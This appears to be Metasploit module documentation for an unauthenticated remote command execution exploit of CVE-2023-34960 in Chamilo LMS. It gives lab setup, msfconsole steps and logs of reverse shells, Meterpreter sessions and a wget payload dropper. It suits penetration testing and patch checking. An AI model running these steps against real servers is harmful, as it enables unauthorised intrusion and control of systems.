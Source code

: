 ## Vulnerable Application
`Chamilo` is an e-learning platform, also called Learning Management Systems (LMS).
This module exploits an unauthenticated remote command execution vulnerability that affects Chamilo versions `1.11.18`
and below. See [CVE-2023-34960](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-34960).
Due to a functionality called `Chamilo Rapid` to easily convert PowerPoint slides to courses on Chamilo,
it is possible for an unauthenticated remote attacker to execute arbitrary commands at OS level using a malicious SOAP
request at the vulnerable endpoint `/main/webservices/additional_webservices.php`.

Read this [article](https://attackerkb.com/topics/VVJpMeSpUP/cve-2023-34960) on attackerkb.com for more details.

This module has been tested against Chamilo 1.11.18 on Ubuntu Linux 22.04 with PHP 7.4

### Installation
Instructions for a Chamilo installation on Ubuntu 22.04:
1. Download and install Ubuntu 22.04 server on VirtualBox (follow these [instructions](https://linux.how2shout.com/how-to-install-ubuntu-22-04-server-on-virtualbox/)).
2. Download and install LAMP on Ubuntu 22.04 server (follow these [instructions](https://linux.how2shout.com/2-ways-to-install-lamp-server-on-ubuntu-22-04-20-04/)).
3. Download Chamilo releases [here](https://github.com/chamilo/chamilo-lms/releases).
4. Follow installation instructions [here](https://11.chamilo.org/documentation/installation_guide.html#1._Pre-requisites).

## Verification Steps

- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/chamilo_unauth_rce_cve_2023_34960`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set lhost <ip-attacker>`
- [ ] `set target <0=PHP, 1=Unix Command, 2=Linux Dropper>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter`
```
msf exploit(linux/http/chamilo_unauth_rce_cve_2023_34960) > options

Module options (exploit/linux/http/chamilo_unauth_rce_cve_2023_34960):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basi
                                         cs/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The Chamilo endpoint URL
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the
                                        local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


   When TARGET is 0:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   WEBSHELL                   no        The name of the webshell with extension. Webshell name will be randomly generat
                                        ed if left unset.


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP
```
## Options

### TARGETURI
The uripath to the `Chamilo` web application. Default set is to `/`.

### WEBSHELL
You can use this option to set the filename and extension (should be .php) of the webshell.
This is handy if you want to test the webshell upload and execution with different file names.
to bypass any security settings on the Web and PHP server.

## Scenarios
### Ubuntu 22.04 PHP - php/meterpreter/reverse_tcp
```
msf exploit(linux/http/chamilo_unauth_rce_cve_2023_34960) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.47:80 can be exploited.
[+] The target is vulnerable.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 192.168.201.47
[+] Deleted cfLzNvTgdlp.php
[*] Meterpreter session 23 opened (192.168.201.10:4444 -> 192.168.201.47:42220) at 2023-07-28 20:29:19 +0000

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : cuckoo
OS          : Linux cuckoo 5.15.0-76-generic #83-Ubuntu SMP Thu Jun 15 19:16:32 UTC 2023 x86_64
Meterpreter : php/linux
meterpreter >
```
### Ubuntu 22.04 Unix Command - cmd/unix/reverse_bash
```
msf exploit(linux/http/chamilo_unauth_rce_cve_2023_34960) > set target 1
target => 1
msf exploit(linux/http/chamilo_unauth_rce_cve_2023_34960) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.47:80 can be exploited.
[+] The target is vulnerable.
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Command shell session 24 opened (192.168.201.10:4444 -> 192.168.201.47:32810) at 2023-07-28 20:30:48 +0000

uname -a
Linux cuckoo 5.15.0-76-generic #83-Ubuntu SMP Thu Jun 15 19:16:32 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
### Ubuntu 22.04 Linux Dropper - linux/x64/meterpreter/reverse_tcp
```
msf exploit(linux/http/chamilo_unauth_rce_cve_2023_34960) > set target 2
target => 2
msf exploit(linux/http/chamilo_unauth_rce_cve_2023_34960) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.47:80 can be exploited.
[+] The target is vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.10:1981/hexZf4ppmqBlG
[*] Client 192.168.201.47 (Wget/1.21.2) requested /hexZf4ppmqBlG
[*] Sending payload to 192.168.201.47 (Wget/1.21.2)
[*] Sending stage (3045348 bytes) to 192.168.201.47
[*] Meterpreter session 25 opened (192.168.201.10:4444 -> 192.168.201.47:55508) at 2023-07-28 20:32:02 +0000
[*] Command Stager progress - 100.00% done (120/120 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer     : 192.168.201.47
OS           : Ubuntu 22.04 (Linux 5.15.0-76-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/var/www/html/chamilo/main/inc/lib/ppt2png
meterpreter >
```

## Limitations
No limitations.

